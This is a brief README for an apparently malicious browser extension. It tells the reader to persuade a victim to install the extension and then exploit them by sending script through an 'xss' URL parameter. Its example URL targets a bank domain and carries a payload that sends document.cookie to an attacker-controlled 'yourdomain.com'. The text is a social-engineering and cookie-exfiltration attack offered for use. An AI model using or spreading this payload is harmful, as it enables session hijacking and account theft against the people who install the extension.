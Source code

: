 # browser-extention

Just a Useless Browser Extention. You heckur? Ask Victim to Install this Extention and Exploit them. 

Usage:

Send your payload in `xss` parameter to Exploit Them. 

Ex:

`https://bank.com?xss=window.location='//yourdomain.com?'+encodeURIComponent(document.cookie)`
